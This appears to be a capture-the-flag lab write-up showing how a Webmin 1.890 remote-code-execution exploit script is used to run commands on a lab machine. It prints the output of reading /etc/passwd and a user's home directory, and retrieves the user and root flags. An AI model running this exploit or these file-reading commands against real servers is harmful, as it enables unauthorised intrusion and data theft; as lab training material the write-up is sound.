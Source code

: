 ### What tools?
Bcos Ubuntu uses `apt` by default I assumed it's installed
`sudo python3 webmin-1.890_exploit.py 10.10.132.155 10000 'apt list' > ~/Workspace/dir/list`

### User flag
`sudo python3 webmin-1.890_exploit.py 10.10.79.206 10000 'cat /etc/passwd'`
```
<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
dark:x:1000:1000:Dark:/home/dark:/bin/bash
</p>
```

There is user `dark` with `/home/dark` and `/bin/bash`

`sudo python3 webmin-1.890_exploit.py 10.10.79.206 10000 'cd /home/dark; ls -la'`
```
<p>Your password has expired, and a new one must be chosen.
total 15228
drwxr-xr-x 5 dark dark     4096 Jun 26  2020 .
drwxr-xr-x 3 root root     4096 Jun 26  2020 ..
-rw------- 1 dark dark        7 Jun 26  2020 .bash_history
-rw-r--r-- 1 dark dark      220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 dark dark     3771 Apr  4  2018 .bashrc
drwx------ 2 dark dark     4096 Jun 26  2020 .cache
drwx------ 3 dark dark     4096 Jun 26  2020 .gnupg
drwxrwxr-x 3 dark dark     4096 Jun 26  2020 .local
-rw-r--r-- 1 dark dark      807 Apr  4  2018 .profile
-rw-r--r-- 1 dark dark        0 Jun 26  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 dark dark       29 Jun 26  2020 user.txt
-rw-rw-r-- 1 dark dark 15550066 Jun 26  2020 webmin_1.890_all.deb
</p>
```
There is `user.txt` :D

Flag is easly obtainable with `cat`
### Root flag
`sudo python3 webmin-1.890_exploit.py 10.10.79.206 10000 'cat /root/root.txt'`